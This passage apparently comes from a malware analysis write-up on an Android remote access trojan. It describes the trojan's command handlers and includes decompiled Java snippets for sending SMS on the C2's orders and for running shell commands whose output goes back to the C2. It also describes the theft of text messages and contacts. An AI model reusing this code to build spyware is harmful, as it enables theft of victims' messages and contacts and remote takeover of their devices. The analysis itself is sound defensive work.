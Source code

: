```java
}
```
Retrieves all text messages stored on the device and sends them to the C2.

### Msppossag
```java
String youmass = MainService.this.command.substring(MainService.this.command.indexOf("Msppossag") + 9, MainService.this.command.indexOf("oproi9"));
String unums = MainService.this.command.substring(MainService.this.command.indexOf("oproi9") + 6, MainService.this.command.indexOf("YRRsxw"));
MainService.sendSMS(unums, youmass);
```
![](/images/rev/ttsp/ttsp-09.png)

Sends an SMS to the number specified by the C2. The content of the text message is also controlled by the C2.

### Getconstactx
Retrieves contact information including contact names and their associated phone numbers and transmits it to the C2.

### Rinxgosa
Plays a ringtone.

### Shetermix
Executes a shell command on the device and transmits the results to the C2.

```java
String mssashel = MainService.this.command.substring(MainService.this.command.indexOf("Shetermix") + 9, MainService.this.command.indexOf("fze54h"));
MainService.socketOutputStream.writeBytes(MainService.this.Executer(mssashel) + "shwselxa");
MainService.socketOutputStream.flush();
```
![](/images/rev/ttsp/ttsp-10.png)

### bithsssp64
```java
String mssashel2 = MainService.this.command.substring(MainService.this.command.indexOf("bithsssp64") + 10, MainService.this.command.indexOf("0uoirs"));
String mssashel22 = MainService.this.command.substring(MainService.this.command.indexOf("0uoirs") + 6, MainService.this.command.indexOf("fooittt"));
System.out.println("exec(" + mssashel2 + "  " + mssashel22 + ")");
DataOutputStream dataOutputStream2 = MainService.socketOutputStream;
StringBuilder sb11 = new StringBuilder();
sb11.append(MainService.this.Executer2(mssashel2, mssashel22));
```
![](/images/rev/ttsp/ttsp-11.png)
Executes a shell command within the specified working directory. The command and directory are provided by the C2, stored in the variables mssashel2 and mssashel22 respectively.
